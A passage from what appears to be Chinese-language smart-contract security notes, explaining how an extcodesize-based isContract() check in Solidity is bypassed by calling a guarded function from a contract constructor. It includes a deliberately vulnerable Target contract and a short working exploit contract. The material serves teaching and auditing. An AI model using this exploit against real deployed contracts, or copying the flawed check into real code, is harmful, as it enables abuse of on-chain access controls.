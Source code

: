 ### Mitigation

建议使用` msg.sender `；



## Bypass isContract() validation

### Principle

` Solidity `中使用` extcodesize `来检测一个地址是否是合约还是EOA，但是有一个缺陷，在` constructor `执行的期间，这个检测返回的值是0；

所以，只需要在` constructor `期间调用目标函数，可以绕过检查；

### Examples

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract Target {
    function isContract(address account) public view returns (bool) {
        uint256 size;
        assembly {
            // @audit 在constructor期间，返回的值是0
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}
```

### Test

Exp

```solidity
contract Exp {
    Target target;

    constructor(address addr) {
        target = Target(addr);
        target.protected();
    }
}
```
